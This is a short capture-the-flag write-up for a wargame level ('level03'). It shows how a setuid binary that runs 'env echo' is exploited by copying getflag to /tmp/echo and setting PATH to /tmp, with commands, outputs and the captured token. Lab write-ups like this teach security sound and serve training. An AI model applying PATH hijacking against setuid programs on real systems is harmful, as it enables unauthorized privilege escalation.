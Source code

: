 # ls -la in homedir:

[...]
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
[...]


# executing the binary

output :
Exploit Me


# cat level03

in the binay we can see a string literal : "/usr/bin/env echo Exploit me"
we can take advantage of the binary executing the "echo" command as "flag03" user


# copy the getflag binay into a file called echo

cp /bin/getflag /tmp/echo


# change the PATH env variable

export PATH="/tmp"


# execute the binary again

./level03

output:
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
